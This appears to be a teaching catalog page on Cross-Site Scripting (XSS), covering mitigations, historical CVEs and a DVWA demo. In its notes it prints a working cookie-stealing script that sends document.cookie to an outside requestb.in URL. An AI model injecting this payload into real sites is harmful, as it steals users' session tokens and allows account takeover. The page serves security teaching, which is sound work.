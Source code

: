 ```yaml
---
layout: catalog
title: Cross-Site Scripting (XSS)
---
```


Cross-Site Scripting (XSS)
=========================

Description
-----------

See [CWE-79](http://cwe.mitre.org/data/definitions/79.html)

Mitigations
-----------

* Sanitization is your best option here. Converting HTML characters to their escaped form (e.g. &lt; to &amp;lt;) is a bare minimum. Only allowing some input is a good idea, but sometimes you want certain characters to be allowed and escaping allows for that flexibility.
* _However!_ Knowing which characters to escape is very tricky. I strongly recommend using an external library, and not just rolling your own. Check out how complicated it is at [OWASP's XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet).

Historical Examples
-------------------
* A good discussion of XSS, including some fascinating historical exploits, is on the [Ruby on Rails security page](http://guides.rubyonrails.org/security.html#cross-site-scripting-xss).
* Be sure to test your XSS mitigations, as they can easily become ineffective, as what happened in Apache Tomcat in [CVE-2009-0781](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-0781). See their subtle [fix](http://svn.apache.org/viewvc?view=revision&revision=750928).
 
Notes
-----

* Widely considered among the most dangerous vulnerabilities today. XSS vulnerabilities have affected GMail, Twitter, Facebook, Hotmail, Yahoo Mail, and just about every other major web application out there.
* Note that XSS does not always have to be done inside &lt;script&gt; tags, it can be done in CSS injection, inside image metadata, and in many other situations.
* Executing Javascript on another person's machine can result in a vast number of exploits. In every case, the asset of cross-site scripting is the user interface. The two main exploits of XSS are:
 * _web defacement_, where you can modify the page to have an extra form asking for someone's password, which gets sent off to a remote site. A user would not be able to tell that they just sent their password to a malicious site.
 * _session hijacking:_ where you steal the authentication token from the victim's cookie and use it to log in. For example:

```html
  <script>
  x = new XMLHttpRequest();
  x.open("GET", "http://requestb.in/13x2ec31?s=" + document.cookie, true);
  x.send();
  </script>
``` 

  The above snippet is a silent AJAX call to a remote site, which an attacker then monitors anonymously, stealing your authentication token. Having the authentication token gives the attacker the ability to log in as the victim (as long as they stay logged in). From there, the attacker can can reset passwords, set up other accounts, set up permanent scripts, anything.
  
Running the Demo
----------------
For this one you will need an installation of [DVWA](http://www.dvwa.co.uk/), which your instructor can provide for you.

